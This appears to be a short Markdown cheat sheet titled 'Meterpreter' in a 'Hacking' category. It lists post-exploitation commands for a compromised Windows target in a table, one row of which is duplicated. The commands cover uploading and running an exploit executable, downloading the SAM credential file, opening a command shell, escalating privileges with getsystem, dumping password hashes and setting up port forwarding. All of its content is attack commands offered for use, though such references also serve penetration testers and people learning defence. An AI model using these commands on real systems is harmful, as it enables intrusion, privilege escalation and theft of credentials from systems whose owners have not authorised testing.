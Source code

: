 ```yaml
---
title: Meterpreter
category: Hacking
---
```


|Command                                 |Description                                                           |
|----------------------------------------|----------------------------------------------------------------------|
|upload file c:\\windows                 |Meterpreter upload file to Windows target                             |
|download c:\\windows\\repair\\sam /tmp  |Meterpreter download file from Windows target                         |
|download c:\\windows\\repair\\sam /tmp  |Meterpreter download file from Windows target                         |
|execute -f c:\\windows\temp\exploit.exe |Meterpreter run .exe on target – handy for executing uploaded exploits|
|execute -f cmd -c                       |Creates new channel with cmd shell                                    |
|ps                                      |Meterpreter show processes                                            |
|shell                                   |Meterpreter get shell on the target                                   |
|getsystem                               |Meterpreter attempts priviledge escalation the target                 |
|hashdump                                |Meterpreter attempts to dump the hashes on the target                 |
|portfwd add –l 3389 –p 3389 –r target   |Meterpreter create port forward to target machine                     |
|portfwd delete –l 3389 –p 3389 –r target|Meterpreter delete port forward                                       |
